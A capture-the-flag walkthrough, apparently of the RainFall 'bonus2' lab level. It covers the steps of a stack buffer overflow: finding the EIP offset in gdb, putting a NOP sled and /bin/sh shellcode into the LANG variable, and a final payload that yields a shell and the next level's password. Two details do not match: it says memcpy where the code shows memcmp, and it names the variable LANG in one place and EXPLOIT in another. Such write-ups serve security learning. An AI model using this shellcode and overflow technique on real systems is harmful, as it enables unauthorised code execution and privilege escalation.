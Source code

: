 A segfault occurs here:

```c
(gdb) run $(python -c 'print "A" * 40') $(python -c 'print "B" * 40')
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 40')
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x08004242 in ?? ()
```

We manage to rewrite a portion of EIP with the second argument, but not the first.

However, we can achieve this by setting the LANG environment variable to `nl`.

It also works with export `LANG=nlsalutsalut` since memcpy only checks the first two characters.

```c
    else if ( !memcmp(env_var, "nl", 2u) )
    {
      language = 2;
    }
```

```nasm
bonus2@RainFall:~$ export LANG=nlsalutsalut
bonus2@RainFall:~$ gdb ./bonus2 
...
(gdb) run $(python -c 'print "A" * 40') $(python -c 'print "B" * 40')
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 40')
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

So, I'm going to attempt to place a shellcode after "nl", just like with bonus0. However, we still need to know the offset of the second argument. As always, we use:  https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/

```c
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x38614137 in ?? ()
```

We have an offset of 23.

So, we change the environment variable like this, with some NOP instructions and the shellcode:

```c
bonus2@RainFall:~$ export LANG=nl$(python -c 'print "\x90" * 50 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"')
```

We run gdb to find the address of the environment variable:

```nasm
Breakpoint 1, 0x0804852f in main ()
(gdb) x/200s environ
...
0xbffff888:	 "EXPLOIT=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\311\367\341Qh//shh/bin\211\343\260\v\315\200"
...
(gdb) x/30x 0xbffff888
0xbffff888:	0x45	0x58	0x50	0x4c	0x4f	0x49	0x54	0x3d
0xbffff890:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff898:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff8a0:	0x90	0x90	0x90	0x90	0x90	0x90
```

We'll try to find a middle ground in the NOPs with the address: `0xbffff898`

And here's the winning payload!

```
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "A" * 23 + "\x98\xf8\xff\xbf" + "A" * 20')
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����AAAAA
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```